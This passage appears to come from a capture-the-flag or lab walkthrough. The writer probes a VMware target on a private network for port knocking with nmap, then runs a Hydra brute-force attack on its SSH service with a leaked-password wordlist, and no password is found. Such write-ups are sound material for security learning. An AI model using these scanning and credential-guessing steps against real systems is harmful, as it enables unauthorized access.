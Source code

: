 It looks like those are three port numbers, which partially confirms my prediction of there being port knocking.

To know for certain, I tried running a nmap scan on those ports.

```
$ nmap -p 1356,6784,3409 192.168.159.168 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 00:01 EDT
Nmap scan report for 192.168.159.168
Host is up (0.00041s latency).

PORT     STATE  SERVICE
1356/tcp closed cuillamartin
3409/tcp closed networklens
6784/tcp closed bfd-lag

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

And I then re-scanned the SSH port.

```
$ sudo nmap -sS -p 22 192.168.159.168   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 00:01 EDT
Nmap scan report for 192.168.159.168
Host is up (0.00031s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:28:97:9A (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Nice.

I ran Hydra on SSH for ```nitu``` with ```darkweb2017-top1000.txt``` but I didn't get any hits.

```
$ sudo hydra -I -l nitu -P seclists/Passwords/darkweb2017-top1000.txt 192.168.159.168 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-01 00:02:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
[DATA] attacking ssh://192.168.159.168:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 845 to do in 00:06h, 14 active
[STATUS] 116.00 tries/min, 348 tries in 00:03h, 653 to do in 00:06h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 285 to do in 00:03h, 14 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-01 00:12:41
```

